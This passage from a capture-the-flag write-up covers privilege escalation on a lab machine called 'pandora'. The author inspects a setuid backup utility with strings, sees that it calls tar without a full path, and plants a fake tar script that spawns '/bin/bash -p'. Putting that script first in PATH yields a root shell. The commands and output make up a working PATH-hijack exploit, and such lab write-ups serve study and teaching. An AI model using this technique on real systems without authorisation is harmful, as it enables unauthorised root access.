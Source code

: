 Strings was not installed on the server, so I used scp to get the binary on my machine and inspect it from there.

```bash
$ scp matt@target:/usr/bin/pandora_backup .
pandora_backup                                                                                                                                                                                           100%   16KB 304.9KB/s   00:00

$ strings pandora_backup
...
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH           
[]A\A]A^A_          
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!           
Check your permissions!   
Backup successful!
Terminating program!
;*3$"    
GCC: (Debian 10.2.1-6) 10.2.1 20210110
...
```

The program uses tar to archive the files in a folder. But it does not provide the full path of the tar binary. So if I could create a tar executable and make sure it was found in my path before the real one, mine would be executed. 

```bash
matt@pandora:~$ cat tar
#!/bin/bash
/bin/bash -p

matt@pandora:~$ chmod +x tar

matt@pandora:~$ PATH=/home/matt:$PATH

matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client

root@pandora:~# whoami
root

root@pandora:~# cat /root/root.txt
REDACTED
```

## Lessons Learned

